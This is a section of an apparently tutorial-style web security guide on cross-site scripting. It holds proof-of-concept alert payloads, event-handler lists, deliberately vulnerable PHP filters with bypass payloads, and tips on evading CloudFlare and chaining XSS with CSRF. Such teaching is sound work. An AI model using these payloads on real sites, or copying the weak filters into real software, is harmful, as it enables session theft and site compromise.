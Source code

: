 ## 7. Cross Site Scripting (XSS)

![](https://miro.medium.com/v2/resize:fit:600/0*OgDrgZakNWFRIiIu.png)

**What is XSS attack?**

Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page. (Taken From OWASP)

**Four types of XSS**
```
1. Reflected XSS
2. Stored XSS
3. Dom XSS
4. Self XSS
```


**Simple 3 Ways to execute javascript in browser**

>Using Script Tag

```
<script>alert('Hello');</script>
```

>Using Events

```
<img src=noimg onerror=alert('Hello');>
```

>Call JavaScript Functions in URL

```
<a href='javascript:alert("Hello");'>Click me</a>
```

**HTML events that can be used to execute JavaScript**

```
onAbort
onBlur
onChange
onClick
onDblClick
onDragDrop
onError
onFocus
onKeyDown
onKeyPress
onKeyUp
onLoad
onMouseDown
onMouseMove
onMouseOut
onMouseOver
onMouseUp
onMove
onReset
onResize
onSelect
onSubmit
onUnload
onscroll
onbort
onmouseleave
oninput
```

## Bypass Methods

**Replacement Filter**

>Example PHP Code

```
<?php
$name = preg_replace('/script/i', '', $_GET['name']);
echo $name;
?>
```

>Bypass Payload (String in String)

```
<scrscriptipt>alert('Hello')</scrscriptipt>
```

**Bypass ()**

>Example PHP Code

```
<?php
$name = $_GET['name'];
$ban = array('\(', '\)');
foreach($ban as $banned){
while(preg_match( '/'.$banned.'/i', $name)){
$name = preg_replace('/'.$banned.'/i', '', $name);}}
echo $name; ?>
```

>Bypass Payload

```
alert`Hello`
```

**Tips For XSS**

>1. Allow Uploading HTML File Or Unknown File Extensions Leads To XSS in some browser. Bypass Extensions (html,htm.pngs,jpegs,txts)
>2. If target web is protected by CloudFlare.Find the real ip of this web and inject xss payloads with host header injection.
>3.We can perform CSRF and CORS attacks with Any Type Of XSS.
